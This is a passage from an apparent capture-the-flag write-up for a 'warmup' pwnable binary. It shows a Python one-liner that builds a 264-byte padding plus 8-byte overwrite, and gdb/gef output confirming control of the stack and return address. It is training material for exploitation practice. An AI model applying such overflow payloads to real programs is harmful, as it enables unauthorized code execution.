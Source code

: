The return address will be overwritten at offset 264...

```  
andrew@fujitsu /tmp % python -c 'print "A"*264 + "BBBBBBBB";' > input  
```

```  
gef➤  r < input  
Starting program: /tmp/warmup < input  
Hello CTF Players!  
This is a warmup challenge for pwnable.  
We provide some hints for beginners spawning a shell to get the flag.

1. This binary has no SSP (Stack Smash Protection). So you can get control of instruction pointer with stack overflow.  
2. NX-bit is disabled. You can run your shellcode easily.  
3. PIE (Position Independent Executable) is also disabled. Some memory addresses are fixed by default.

If you get stuck, we recommend you to search about ROP and x64-shellcode.  
Please pwn me :)  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB  
Program received signal SIGSEGV, Segmentation fault.  
[ Legend: Modified register | Code | Heap | Stack | String ]  
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
registers ────  
$rax   : 0x0  
$rbx   : 0x0  
$rcx   : 0x0  
$rdx   : 0x00007ffff7dd18c0  →  0x0000000000000000  
$rsp   : 0x00007fffffffdeb8  →  "BBBBBBBB"  
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)  
$rsi   : 0x00007fffffffb710  →
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
$rdi   : 0x1  
$rip   : 0x0000000000400709  →  <main+79> ret  
$r8    : 0x110  
$r9    : 0x00007ffff7fdb4c0  →  0x00007ffff7fdb4c0  →  [loop detected]  
$r10   : 0x3  
$r11   : 0x246  
$r12   : 0x0000000000400590  →  <_start+0> xor ebp, ebp  
$r13   : 0x00007fffffffdf90  →  0x0000000000000001  
$r14   : 0x0  
$r15   : 0x0  
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow
RESUME virtualx86 identification]  
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000  
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
stack ────  
0x00007fffffffdeb8│+0x0000: "BBBBBBBB"   ← $rsp  
0x00007fffffffdec0│+0x0008: 0x0000000000000000  
0x00007fffffffdec8│+0x0010: 0x00007fffffffdf98  →  0x00007fffffffe317  →
"/tmp/warmup"  
0x00007fffffffded0│+0x0018: 0x0000000100008000  
0x00007fffffffded8│+0x0020: 0x00000000004006ba  →  <main+0> push rbp  
0x00007fffffffdee0│+0x0028: 0x0000000000000000  
0x00007fffffffdee8│+0x0030: 0xfb9b0c21f2f5366f  
0x00007fffffffdef0│+0x0038: 0x0000000000400590  →  <_start+0> xor ebp, ebp  
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
code:x86:64 ────  
```